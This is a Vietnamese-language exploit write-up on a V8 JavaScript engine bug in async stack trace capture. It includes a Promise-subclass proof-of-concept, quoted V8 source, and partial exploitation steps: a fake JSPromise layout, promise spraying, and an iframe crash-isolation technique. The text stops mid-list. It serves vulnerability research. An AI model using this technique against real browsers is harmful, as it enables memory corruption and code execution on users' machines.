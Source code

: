 ```javascript=
class CustomPromise extends Promise {
    constructor(executor) {
        super(executor);
    }

    static resolve() {
        return {
            then(resolve, reject) {
                Promise.resolve().then(BigInt).then(resolve, reject);
                reject();
            }
        };
    }
}

CustomPromise.any([1]);
```
* Đầu tiên là gọi hàm `reject` để làm `context` thành `NativeContext`. Sau đó gán `reject` làm handler cho `then(BigInt)`. `BigInt` được gọi với tham số không hợp lệ sẽ tạo 1 object `Error` và thực hiện capture stack trace
* Hàm `CaptureAsyncStackTrace` sẽ thực hiện duyệt promise chain đến khi nào gặp 1 generator(chương trình vào luồng này khi capture async function) hoặc 1 handler builtin 

```cpp=
      // We have some generic promise chain here, so try to
      // continue with the chained promise on the reaction
      // (only works for native promise chains).
      Handle<HeapObject> promise_or_capability(
          reaction->promise_or_capability(), isolate);
      if (IsJSPromise(*promise_or_capability)) {
        promise = Handle<JSPromise>::cast(promise_or_capability);
      } else if (IsPromiseCapability(*promise_or_capability)) {
        Handle<PromiseCapability> capability =
            Handle<PromiseCapability>::cast(promise_or_capability);
        if (!IsJSPromise(capability->promise())) return;
        promise = handle(JSPromise::cast(capability->promise()), isolate);
      } else {
        // Otherwise the {promise_or_capability} must be undefined here.
        CHECK(IsUndefined(*promise_or_capability, isolate));
        return;
      }
```
# Khai thác

* Đầu tiên khi nó lấy `hash` làm `capability`, do `hash` là 1 smi nên địa chỉ sẽ bị lệch 1 byte khi resolve vậy nên khi tạo fake promise thì sẽ phải dịch đi 1 byte

```javascript=
let fakeJSPromise = [pair_32_to_f(promiseMap << 8, emptyFixedArray << 8),
                    pair_32_to_f(emptyFixedArray << 8, (fakeObjArrEle + 0x10) << 8),
                    pair_32_to_f(0x0, 0x41414141), // status
]
```
* Do giá trị `hash` là ngẫu nhiên nên phải thực hiện spray promise, xác suất giá trị `hash` rơi vào đúng các fake promise khá thấp nma khi chạy trên chrome thì phải dùng [iframe technique](https://blog.exodusintel.com/2019/01/22/exploiting-the-magellan-bug-on-64-bit-chrome-desktop/)
* Tạo thật nhiều frame chạy poc, nếu 1 frame con crash thì các frame khác sẽ không ảnh hưởng
* Build 1 fake frame 
